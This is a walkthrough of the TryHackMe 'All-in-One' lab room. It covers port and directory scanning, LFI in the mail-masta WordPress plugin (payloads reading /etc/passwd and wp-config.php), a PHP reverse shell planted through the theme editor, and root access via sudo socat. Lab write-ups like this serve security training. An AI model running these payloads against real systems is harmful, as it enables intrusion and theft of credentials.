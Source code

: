 # TryHackMe - All-in-One Walkthrough

This write-up covers the steps I took to complete the "All-in-One(https://tryhackme.com/room/allinonemj)" room on TryHackMe.  
The machine focuses on WordPress exploitation, LFI, privilege escalation, and is a great challenge for anyone looking to sharpen their penetration testing skills.

Below you'll find the full process I followed — from enumeration to privilege escalation.

> ⚠️ This write-up contains spoilers. Proceed only if you've already tried the machine or are stuck.

# 1. Port Scanning
👁️ Using nmap:
```python
nmap -sC -sV -oN result 10.10.49.154
````
Result:
```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
````
# 2. FTP Enumeration
Anonymous login is allowed:
```python
ftp 10.10.49.154
````
However, no useful files were found.
# 3. Directory Enumeration (Gobuster)
```python
gobuster dir -u http://10.10.49.154 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50
````
Interesting findings:
```python
/wordpress (301)
/index.html (200)
````
Re-scan on /wordpress:
```python
gobuster dir -u http://10.10.49.154/wordpress -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
````
Key files discovered:
```python
wp-login.php
wp-config.php
wp-mail.php (403)
xmlrpc.php, wp-cron.php, etc
````
# 4. LFI Exploitation via mail-masta Plugin
Researching leads to a known vulnerability:
```python
https://www.exploit-db.com/exploits/40290
````
Local File Inclusion (LFI) test:
```python
http://10.10.49.154/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
````
To read sensitive files like wp-config.php, we used Base64 encoding:
```python
http://10.10.49.154/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
````
Decoded Base64 output reveals:
```python
DB_USER: elyana  
DB_PASSWORD: ********
````
# 5. WordPress Login and Shell Upload
1 Login to /wp-login.php as user elyana

2 Navigate to Appearance > Theme Editor > 404.php

3 Upload a PHP reverse shell into the 404 template

Listener setup:
```python
nc -lvnp 4444
````
Trigger reverse shell:
```python
http://10.10.49.154/wordpress/wp-content/themes/twentytwenty/404.php
````
#  Privilege Escalation
We inspect config files:
```python
cd /etc/mysql/conf.d
cat private.txt
````
Found additional credentials:
```python
user: elyana
password: ********
````
SSH into the machine:
```python
ssh elyana@10.10.49.154
````
Retrieve the user flag:
```python
cat user.txt
````
# Root Privileges via socat
Check sudo rights:
```python
sudo -l
````
Output:
```python
(ALL) NOPASSWD: /usr/bin/socat
````

From GTFOBins:
```python
https://gtfobins.github.io/gtfobins/socat/
````
```python
sudo socat stdin exec:/bin/sh
````
Now root:
```python
whoami
root
cat /root/root.txt
````
 # <b>This was my first ever write-up, and I truly hope it was helpful to someone out there.  
Thanks for reading, and happy hacking!</b>

